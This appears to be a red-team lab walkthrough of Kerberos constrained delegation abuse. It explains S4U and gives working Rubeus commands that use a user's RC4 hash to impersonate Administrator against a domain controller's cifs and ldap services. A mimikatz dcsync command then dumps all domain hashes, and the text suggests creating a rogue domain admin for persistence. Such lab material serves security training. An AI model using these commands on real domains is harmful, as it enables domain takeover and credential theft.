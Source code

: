 # Constrained Delegation Abuse

⇒ So if you have compromised a **`user account`** / **`system`** on a **`machine`** that is allowed to **`delegate`** to Domain Controller's **`cifs`** / **`ldap`** service we can abuse that to own the domain controller!

- Refer to the lab creation guide: [Kerberos Constrained Delegation Lab Creation](../Lab%20Creation/Kerberos%20Constrained%20Delegation%20Lab%20Creation.md)

---

## Explaining the Attack

⇒ **msDS-AllowedToDelegateTo** :

- For a given computer or user account, this attribute specifies the list of service principal names (SPN) corresponding to Windows services that can act on behalf of the computer or user account.

⇒ So here user enox is **`allowedtodelegate`** to **`impersonate`** as any user to the **`SPNs`** set as show in the screenshot [ i.e **`ldap`** and **`cifs`** ]

```python
get-netuser | ?{$_.cn -like "naqi"} | select msds-allowedtodelegateto  -ExpandProperty msds-allowedtodelegateto
```

![Constrained%20Delegation%20Abuse/Untitled.png](Constrained%20Delegation%20Abuse/Untitled.png)

- So basically we can authenticate to **ldap** and **cifs** services ****on **VDC01** machine as any user we want.

### ⇒ **S4U** ( Service-For-User ) :

- So **`S4U`** is a set of kerberos extensions, which were implemented by Microsoft to avoid unconstrained delegations to run wild.
- So the **`s4u2fself`** extension allows a service to request forwardable service tickets to itself on behalf of a particular user. This was implemented so that a user authenticate to a service somewhat not using Kerberos.
- The extensions **`s4u2proxy`** allows the service account to use the forwardable ticket to request a service ticket to the SPN specified in msds-allowedtodelegateto.

[ NOTE: This is only possible if the user has TRUSTED_TO_AUTH_FOR_DELEGATION flag set]

---

## Performing The Attack

⇒ So to perform this attack we will be using Rubeus.exe tool which is a C# toolset for raw Kerberos interaction and abuses. 

- It hash s4u abuse extension which we can use to perform this attack

Tool : [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

⇒ So as we saw previously we are allowed to delegate to :

- ldap
- cifs

⇒ We will be showing how to abuse both of the services to compromise the domain controller.

- First we will start with getting rc4 hash of the user :

![Constrained%20Delegation%20Abuse/Untitled%201.png](Constrained%20Delegation%20Abuse/Untitled%201.png)

RC4: `**58A52D36C84FB7F5F1BEAB9A201DB1DD**`

### ⇒ cifs/vdc01.endark.local :

- Now we will impersonate as Administrator user and request a ticket to **`cifs`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:cifs/vdc01.endark.local /ptt
```

![Constrained%20Delegation%20Abuse/Untitled%202.png](Constrained%20Delegation%20Abuse/Untitled%202.png)

![Constrained%20Delegation%20Abuse/Untitled%203.png](Constrained%20Delegation%20Abuse/Untitled%203.png)

- No winrm or mimikatz using “**`cifs`**” . So we will instead create a user and add it to domain admins group :

![Constrained%20Delegation%20Abuse/Untitled%204.png](Constrained%20Delegation%20Abuse/Untitled%204.png)

![Constrained%20Delegation%20Abuse/Untitled%205.png](Constrained%20Delegation%20Abuse/Untitled%205.png)

Next you could just use RunAs or WinRm to the Domain Controller to get shell as the user we created and added to Domain Admins and run mimikatz to dump hashes for persistence.

### ⇒ **ldap/vdc01.endark.local** :

- Impersonating as Administrator user and getting a ticket for **`ldap`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:ldap/vdc01.endark.local /outfile:dc.kirbi
```

![Constrained%20Delegation%20Abuse/Untitled%206.png](Constrained%20Delegation%20Abuse/Untitled%206.png)

- Next we will just use the ticket with **mimikatz** to perform dcsync attack to dump all the hashes in the domain :

```python
.\mimikatz.exe "kerberos::ptt dc_ldap_vdc01.endark.local.kirbi" "lsadump::dcsync /all /csv" "exit"
```

![Constrained%20Delegation%20Abuse/Untitled%207.png](Constrained%20Delegation%20Abuse/Untitled%207.png)

---

References : [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) and [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation)